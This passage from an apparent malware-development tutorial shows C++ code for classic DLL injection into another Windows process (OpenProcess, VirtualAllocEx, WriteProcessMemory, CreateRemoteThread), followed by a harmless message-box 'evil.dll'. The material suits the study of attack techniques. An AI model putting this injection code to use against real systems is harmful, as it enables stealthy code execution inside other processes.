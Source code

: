```cpp
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);

  return 0;
}
```

As usually, for simplicity I create simple DLL with `meow from evil.dll!` messagebox (`evil.c`):      

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
